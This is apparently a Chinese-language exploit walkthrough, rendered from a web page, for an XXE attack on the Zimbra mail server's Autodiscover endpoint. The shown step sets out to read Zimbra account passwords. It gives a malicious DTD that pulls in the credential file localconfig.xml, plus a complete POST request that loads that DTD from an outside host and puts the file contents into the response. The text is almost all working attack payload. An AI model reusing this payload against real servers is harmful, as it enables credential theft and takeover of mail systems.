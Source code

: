 ![1.png](img/2c694de18e5148be2bb64cf68236ac91.png)

### 第二步：读取zimbra用户账号密码

> dtd文件内容如下：

```
<!ENTITY % file SYSTEM "file:../conf/localconfig.xml">  
<!ENTITY % start "<![CDATA["> 
<!ENTITY % end "]]>">  
<!ENTITY % all "<!ENTITY fileContents '%start;%file;%end;'>"> 
```

> POST请求包如下：

```
POST /Autodiscover/Autodiscover.xml HTTP/1.1  
Host: www.0-sec.org  
User-Agent: Mozilla/5.0 (Windows NT 10.0;) Gecko/20100101 Firefox/66.0  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8  
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.2  
Accept-Encoding: gzip, deflate  
Referer: https://mail.****.com/zimbra/  
Content-Type: application/soap+xml  
Content-Length: 436  
Connection: close  
Cookie: ZM_TEST=true  
Upgrade-Insecure-Requests: 1 `<!DOCTYPE Autodiscover [

<!ENTITY % dtd SYSTEM “[http://www.0-sec.org/dtd](http://www.0-sec.org/dtd)”>

%dtd;

%all;

]>

<Autodiscover xmlns=“[http://schemas.microsoft.com/exchange/autodiscover/outlook/responseschema/2006a](http://schemas.microsoft.com/exchange/autodiscover/outlook/responseschema/2006a)”>

<Request>

<EMailAddress>aaaaa</EMailAddress>

<AcceptableResponseSchema>&fileContents;</AcceptableResponseSchema>
```